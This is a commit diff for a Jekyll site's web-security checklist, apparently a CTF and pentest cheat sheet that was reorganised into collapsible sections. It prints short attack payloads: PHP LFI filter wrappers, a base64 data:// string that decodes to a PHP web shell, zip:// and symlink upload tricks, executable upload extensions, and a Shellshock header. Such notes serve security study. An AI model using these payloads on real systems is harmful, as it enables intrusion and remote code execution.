

Before and after one commit to Q5Ca/Q5Ca.github.io, a Jekyll site: the page built from web-checklist.html, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
update web checklist

```diff
--- a/_layouts/default.html
+++ b/_layouts/default.html
@@ -25,6 +25,7 @@
             {% include google-analytics.html %}
         {% endif %}
         {% seo %}
+        {% feed_meta %}
         <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
         <meta name="theme-color" content="{{page.color-theme}}">
         <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous">
--- a/web-checklist.html
+++ b/web-checklist.html
@@ -17,7 +17,7 @@
         <input type="checkbox">/robots.txt, /.well-known/security.txt, /sitemap.xml<br>
         <input type="checkbox">Nghịch<br>
         <input type="checkbox">cookies<br>
-        <input type="checkbox">directory indexing.<br>
+        <input type="checkbox">Directory indexing.<br>
         <div class="ml-3 mr-3">
             <div class="d-flex justify-content-between">
                 <span class="font-weight-bold">Headers</span>
@@ -25,7 +25,7 @@
                     More&#x25BC;
                 </a>
             </div>
-            <div class="collapse" id="headers">
+            <div class="collapse ml-3" id="headers">
                 <ul>
                     <li> <span class="text-success">Server</span> </li>
                     <li> <span class="text-success">X-Powered-By:</span> PHP</li>
@@ -54,7 +54,7 @@
                 More&#x25BC;
             </a>
         </div>
-        <div class="collapse" id="php">
+        <div class="collapse ml-3" id="php">
             <input type="checkbox">directory travel, LFI <span class="text-danger">php://filter/read=string.rot13/resource=</span>, <span class="text-danger"> pHp://FilTer/convert.base64-encode/resource= </span> <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi--rfi-using-wrappers" target="_blank" rel="noopener noreferrer">payload-all-the-thing</a> <br>
             <input type="checkbox">RFI<br>
 
@@ -65,7 +65,7 @@
                         More&#x25BC;
                     </a>
                 </div>
-                <div class="collapse" id="loose-compare">
+                <div class="collapse ml-3" id="loose-compare">
                     <input type="checkbox"> <a href="https://www.php.net/manual/en/types.comparisons.php" target="_blank" rel="noopener noreferrer">PHP-type-comparison-tables</a> <br>
                     <input type="checkbox"> <span class="text-danger">$_SESSION["uninitialized"] === NULL </span> <br>
                 </div>
@@ -80,13 +80,13 @@
                         More&#x25BC;
                     </a>
                 </div>
-                <div class="collapse" id="advanced-inclusion">
+                <div class="collapse ml-3" id="advanced-inclusion">
                     <input type="checkbox">RCE <span class="text-danger">data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=</span> <br>
                     <input type="checkbox">RCE <span class="text-danger">php://input</span> <br>
                     <input type="checkbox">RCE <span class="text-danger">/proc/self/fd/...(brute to get access.log or error.log)</span> <br>
                     <!-- <input type="checkbox">RCE <span class="text-danger">expect://ls</span> <br> -->
                     <input type="checkbox"><a href="https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/" target="_blank" rel="noopener noreferrer">via-php-sessions</a> <br>
-                    <input type="checkbox">upload zipped payload then use zip stream<span class="text-danger">zip://shell.jpg%23payload.php</span> <br>
+                    <input type="checkbox">upload zipped payload then use zip stream <span class="text-danger">zip://shell.jpg%23payload.php</span> <br>
                 </div>
             </div>
             <div class="ml-3 mr-3">
@@ -96,16 +96,16 @@
                         More&#x25BC;
                     </a>
                 </div>
-                <div class="collapse" id="deserialize">
+                <div class="collapse ml-3" id="deserialize">
                     <input type="checkbox">We can declare and assign new properties in serialize data. <br>
-                    <input type="checkbox"> <span class="text-success"> PHP method names are case insensitive </span><br>
+                    <input type="checkbox"> <span class="text-success"> PHP method/function names are case insensitive </span><br>
                     <input type="checkbox"> <span class="text-success">There are additional magic methods in PHP default interfaces like ArrayAccess, ArrayIterator,Serializable: offsetGet(), offsetSet(), current() </span><br>
                     <input type="checkbox">use S and \00 to bypass null byte filter <a href="#" target="_blank" rel="noopener noreferrer">mates2019r4-web2</a> , not necessary with <a href="https://twitter.com/0x01110129/status/1158698071120760832?s=20" target="_blank" rel="noopener noreferrer">php>=7.2</a> <br>
                     <input type="checkbox">use R to refer another property<br>
                     <input type="checkbox"> <a href="https://github.com/ambionics/phpggc" target="_blank" rel="noopener noreferrer">phpggc</a> <br>
                     <input type="checkbox">using file function with phar wrapper  <a href="https://blog.ripstech.com/2018/new-php-exploitation-technique/" target="_blank" rel="noopener noreferrer">ripstech-New-PHP-Exploitation-Technique-Added</a> , <a href="file:///E:/Documents/infosec/us-18-Thomas-It's-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It.pdf" target="_blank" rel="noopener noreferrer">It’s-a-PHP-unserialization-vulnerability-Jim,
                     ...</a> <br>
-                    <input type="checkbox"> Possible SSRF? <a href="https://2018.zeronights.ru/wp-content/uploads/materials/9%20ZN2018%20WV%20-%20PHP%20unserialize.pdf" target="_blank" rel="noopener noreferrer">[1]</a> <br>
+                    <input type="checkbox"> Possible SSRF with __call() <a href="https://2018.zeronights.ru/wp-content/uploads/materials/9%20ZN2018%20WV%20-%20PHP%20unserialize.pdf" target="_blank" rel="noopener noreferrer">[1]</a> <br>
                 </div>
             </div>
         </div>
@@ -136,14 +136,30 @@
     <li>
         <h3>Upload files</h3>
         <div class="ml-3 mr-3">
-            <span class="font-weight-bold">PHP</span> <br>
-            <input type="checkbox"><span class="text-danger">.php .php3 .php4 .php5 .php7 .htaccess .pht .phtm .phtml .phar .phps</span> <br>
-            <input type="checkbox">upload zip file with symlink <span class="text-danger">ln -s ...; zip -y ... </span> <br>
+            <div class="d-flex justify-content-between">
+                <span class="font-weight-bold">PHP upload files</span>
+                <a data-toggle="collapse" href="#php-upload-files" role="button" aria-expanded="false" aria-controls="php-upload-files">
+                    More&#x25BC;
+                </a>
+            </div>
+            <div class="collapse ml-3" id="php-upload-files">
+                <input type="checkbox"><span class="text-danger">.php .php3 .php4 .php5 .php7 .htaccess .pht .phtm .phtml .phar .phps</span> <br>
+                <input type="checkbox">upload zip file with symlink <span class="text-danger">ln -s ../index.php abc.txt; zip -y abc.zip abc.txt </span> <br>
+            </div>
         </div>
         <div class="ml-3 mr-3">
-            <span class="font-weight-bold">ASP.Net</span> <br>
-            <input type="checkbox"><span class="text-danger">.aspx .shtml .stm .config .ashx .asmx .aspq .axd .cshtm .cshtml .rem .soap .vbhtm .vbhtml .asa .asp .cer</span> <br>
+            <div class="d-flex justify-content-between">
+                <span class="font-weight-bold">ASP upload files</span>
+                <a data-toggle="collapse" href="#asp-upload-files" role="button" aria-expanded="false" aria-controls="asp-upload-files">
+                    More&#x25BC;
+                </a>
+            </div>
+            <div class="collapse ml-3" id="asp-upload-files">
+                <input type="checkbox"><span class="text-danger">.aspx .shtml .stm .config .ashx .asmx .aspq .axd .cshtm .cshtml .rem .soap .vbhtm .vbhtml .asa .asp .cer</span> <br>
+            </div>
         </div>
+        <input type="checkbox">Upload .htaccess file <a href="https://github.com/wireghoul/htshells" target="_blank" rel="noopener noreferrer">https://github.com/wireghoul/htshells</a> <br>
+        <input type="checkbox">Upload web.config file <a href="https://soroush.secproject.com/blog/2019/08/uploading-web-config-for-fun-and-profit-2/" target="_blank" rel="noopener noreferrer">[1]</a> <br>
         <div class="ml-3 mr-3">
             <span class="font-weight-bold">bypass</span> <br>
             <input type="checkbox">extensions<br>
@@ -185,7 +201,7 @@
                     More&#x25BC;
                 </a>
             </div>
-            <div class="collapse" id="spring-framework">
+            <div class="collapse ml-3" id="spring-framework">
                 <input type="checkbox">AutoBinding / Mass Assignment <a href="https://github.com/w181496/Web-CTF-Cheatsheet" target="_blank" rel="noopener noreferrer">Web-CTF-Cheatsheet</a>, <a href="https://ctftime.org/task/7959" target="_blank" rel="noopener noreferrer">volgactf-shop</a>, <a href="https://ctftime.org/task/7975" target="_blank" rel="noopener noreferrer">volgactf-shopv2</a> <br>
             </div>
         </div>
@@ -196,7 +212,7 @@
                     More&#x25BC;
                 </a>
             </div>
-            <div class="collapse" id="spring-boot">
+            <div class="collapse ml-3" id="spring-boot">
                 <input type="checkbox">Actuator endpoints <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/404afd1d719b59c2a7600b83b5ed4583f8c822e9/Insecure%20Management%20Interface" target="_blank" rel="noopener noreferrer">swisskyrepo</a> <a href="https://www.veracode.com/blog/research/exploiting-spring-boot-actuators" target="_blank" rel="noopener noreferrer">[1]</a>
             </div>
         </div>
@@ -207,7 +223,7 @@
                     More&#x25BC;
                 </a>
             </div>
-            <div class="collapse" id="jolokia">
+            <div class="collapse ml-3" id="jolokia">
                 <input type="checkbox">install new jar <a href="https://ctftime.org/task/7891" target="_blank" rel="noopener noreferrer">0ctf2019-ghostpepper</a> <br>
             </div>
         </div>
@@ -218,7 +234,7 @@
                     More&#x25BC;
                 </a>
             </div>
-            <div class="collapse" id="mod-cgi">
+            <div class="collapse ml-3" id="mod-cgi">
                 <input type="checkbox">Shellshock <span class="text-danger">User-Agent: () { :;}; /bin/bash -c '...'</span> <a href="https://medium.com/@wywyit/ritsec-fall-2018-ctf-week-6-45d414035c76" target="_blank" rel="noopener noreferrer">ritsecctf-web4</a> , <a href="https://www.cvedetails.com/cve/CVE-2014-6271/" target="_blank" rel="noopener noreferrer">cve-detail</a> <br>
             </div>
         </div>
```
